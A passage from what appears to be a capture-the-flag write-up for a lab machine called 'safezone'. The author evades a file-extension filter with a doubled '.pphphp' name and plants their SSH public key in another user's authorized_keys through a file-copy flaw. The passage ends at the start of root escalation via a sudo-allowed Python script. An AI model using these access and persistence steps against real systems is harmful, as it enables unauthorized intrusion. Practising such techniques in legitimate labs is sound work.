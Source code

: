And then use this message to copy it in the web root so I could execute it. 
```
cp /home/files/shell.pphphp /opt/
```

But the web server was running as yash and they were not allowed to write to `/opt` so that failed. 

But since it was running as yash, it meant I could use it to write into yash home folder. I created a file `/home/files/authorized_keys` with my public key. And then used the web page to copy it in `/home/yash/.ssh/`.

```
mkdir ~/.ssh

cp /home/files/authorized_keys /home/yash/.ssh/

chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

When this was done, I was able to connect as yash with SSH and finally get the first flag.

```bash
$ ssh yash@target
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-140-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul 16 16:09:16 IST 2021

  System load:  0.0                Processes:           103
  Usage of /:   12.3% of 39.45GB   Users logged in:     1
  Memory usage: 25%                IP address for eth0: 10.10.120.71
  Swap usage:   0%


0 packages can be updated.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jan 29 09:17:38 2021
yash@safezone:~$ cat flag.txt 
REDACTED
```

## Escalation to root

As always, I started looking at sudo permission. 

```
$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```
